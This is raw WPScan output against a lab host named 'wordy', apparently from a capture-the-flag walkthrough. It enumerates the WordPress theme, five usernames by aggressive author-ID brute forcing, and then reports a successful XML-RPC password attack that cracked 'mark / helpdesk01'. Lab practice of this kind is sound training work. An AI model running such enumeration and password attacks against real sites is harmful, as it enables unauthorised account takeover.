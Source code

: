 ```bash

[+] WordPress theme in use: twentyseventeen
 | Location: http://wordy/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://wordy/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1, Match: 'Version: 2.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <============================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=============================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - mark / helpdesk01
```
